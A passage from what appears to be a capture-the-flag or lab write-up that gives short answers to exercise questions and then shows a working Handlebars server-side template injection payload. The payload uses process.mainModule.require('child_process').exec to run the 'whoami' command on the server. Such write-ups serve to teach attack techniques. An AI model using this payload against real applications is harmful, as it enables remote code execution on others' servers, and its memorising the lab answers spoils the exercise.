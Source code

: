 > Answer: _**URL**_

***

<figure><img src="../../.gitbook/assets/image (314).png" alt=""><figcaption></figcaption></figure>

> Answer: _**require**_

***

<figure><img src="../../.gitbook/assets/image (588).png" alt=""><figcaption></figcaption></figure>

> Answer: _**global**_

***

* Searching about this error, I found out it was because the _require_ function used in line 9 of our payload, couldn't be in the internal environment of the deployment so I had to find a way to modify it for my purposes. After a little [research](https://nodejs.org/api/process.html#processmainmodule), we found an alternative to the use of the _require_ function via the _process.mainModule_ property. So I adapted the payload to work with this and resent it

{% code title="SSTI_New_Payload" overflow="wrap" lineNumbers="true" %}
```handlebars
{{#with "s" as |string|}}
  {{#with "e"}}
    {{#with split as |conslist|}}
      {{this.pop}}
      {{this.push (lookup string.sub "constructor")}}
      {{this.pop}}
      {{#with string.split as |codelist|}}
        {{this.pop}}
        {{this.push "return process.mainModule.require('child_process').exec('whoami');"}} 
        {{this.pop}}
        {{#each conslist}}
          {{#with (string.sub.apply 0 codelist)}}
            {{this}}
          {{/with}}
        {{/each}}
      {{/with}}
    {{/with}}
  {{/with}}
{{/with}}
```
{% endcode %}
